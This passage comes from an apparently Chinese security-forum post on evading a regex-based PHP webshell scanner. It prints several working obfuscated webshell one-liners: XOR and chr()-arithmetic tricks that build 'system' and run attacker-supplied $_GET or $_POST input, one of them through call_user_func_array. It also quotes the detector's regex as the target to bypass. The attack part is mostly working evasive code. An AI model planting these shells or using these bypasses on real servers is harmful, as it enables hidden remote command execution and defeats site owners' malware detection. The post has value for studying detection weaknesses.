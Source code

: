 ```php
$_='$<>/'^'{{{{';@${$_}[_](@${$_}[__]);
```

等等，还有许多以 `变量(调用外部参数)` 来执行恶意命令的WebShell都能查杀，说明作者对参数变形和PHP参数调用的相关姿势烂熟于心啊哈哈

3# 查杀ByPass
===========

既然直接用变量作为函数执行不行的话，那可以曲线救国，比如：

```php
//ASCII编码解密后为system高危函数
$f =  chr(114+1).chr(120+1).chr(116-1).chr(117-1).chr(100+1).chr(108+1);
call_user_func_array($f, array($_GET['aabyss']));
```

通过这个简单的样例，采用回调函数的手法，来执行对应的命令

![跨越十年-8.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-9871c985e2cc2f3a4e139638be332dc7914feffe.png)

成功ByPass：

![跨越十年-9.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-ef2e7dd357d6b99c00cedd1a1c113f549735d761.png)

同样，基于这种思路，还可以用更多手法来绕过这些正则表达式

4# 关于课后作业
=========

这篇文章发表后，在公众号上迅速传播，我真没想到能得到lake2师傅的回应，也没想到师傅居然是前腾讯安全平台部总监?

**《我很好，谢谢》：[https://mp.weixin.qq.com/s/l1gt6Wf\_yZg-dHeyBmA7Dw](https://mp.weixin.qq.com/s/l1gt6Wf_yZg-dHeyBmA7Dw)**

在文中，大佬也给我留下了课后作业：

![课后作业-1.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-59cb59f19aa7982d22b4218ab06be9b19419bffe.png)

那意味着有以下限制条件：

- 不能使用任何高危函数
- 不能使用任何回调函数
- 在满足以上两个条件的情况下，能绕过 `\$[\w-_\'\\[\\]{}\.\$\*/|]+(\s|\/\*.*?\*\/)*\(.*?\)` 这个正则表达式

这个限制条件看似简单，实则细细研究后，还是挺让人伤脑筋的

因为正常情况下，比如我将高危函数名传给变量（因为高危函数都被禁用了）：

```php
$f = ('.$.48]' ^ ']]]@]0');  //通过异或运算，让$f = system
```

当我们要调用 `$f` 执行高危命令的时候，结构如下：

```php
$f($_POST['aabyss']);
$f(calc);
$f(whoami);
```
